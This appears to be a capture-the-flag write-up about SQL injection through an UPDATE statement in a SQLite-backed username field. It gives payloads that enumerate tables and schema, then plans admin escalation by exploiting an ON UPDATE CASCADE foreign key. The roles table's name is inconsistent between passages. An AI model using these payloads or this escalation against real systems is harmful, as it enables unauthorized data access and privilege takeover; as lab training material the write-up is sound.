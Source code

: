 * As we can see, we can change the username. According to the hints, this uses an UPDATE statement, which makes it susceptible to injection attacks.

* The application is probably using this query.

```sql
UPDATE users SET name="<input>" WHERE id=1;
```

* So we tried to exploit and display the results in the name field.

* Here are some payloads and their output

```
1. Payload: ",name=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%')--
   Result: users,roles_eab48ad667ed5a02

2. Payload: ",name=(SELECT group_concat(name) FROM pragma_table_info('users'))--
   Result: id,name

Similarly there are two columns in the roles_eab48ad667ed5a02 table id,admin

3. Payload: ", name=(SELECT sql FROM sqlite_master WHERE tbl_name='roles_eab48ad667ed5a02') WHERE id=1  --
   Result:  CREATE TABLE roles_44f63838742cf87d (id INTEGER, admin INTEGER, FOREIGN KEY(id) REFERENCES users(id) ON UPDATE CASCADE)

Similarly
   CREATE TABLE users (id INTEGER PRIMARY KEY, name TEXT NOT NULL)
```

* Let's discuss the results with two tables: users and roles_eab48ad667ed5a02. The database resets every 15 minutes.

* The users table contains two columns: name and id. The id = 0 is assigned to a name, and the table structure uses `PRIMARY KEY` for the id column, meaning we can't change the id to an existing value in this table. Since 0 is assigned to a name, we can't directly change the value to 0.

* The second table (roles_44f63838742cf87d) is intriguing. It has two columns: admin and id. For id = 0, admin = 1, and for id = 1, admin = 0. This indicates that only users with id = 0 have admin access.

* Now, if we can change our id to 0, we can gain admin access, or we can set admin = 1 for id = 1.

* Here is the interesting part: `(id INTEGER, admin INTEGER, FOREIGN KEY(id) REFERENCES users(id) ON UPDATE CASCADE)`. This part tells us that the users table is the parent table and holds a foreign key relation with its child table. So, if we change the value of id in the users table, it will automatically change the value in the roles table.

* So, if we first change id = 0 to id = 3 in the users table, then we have id = 3 with admin = 1. Now, if we change id = 1 to id = 5, we have id = 5 with admin = 0 in the roles table. Finally, if we change id = 3 back to id = 1, then id = 1 will have admin = 1, which simply means we have admin role.

* But there's a twist: when you change id = 1 to id = 5, the cookie will reset, as it is mentioned that you will always have id = 1. So, we have to ensure that the cookie doesn't change while doing so.
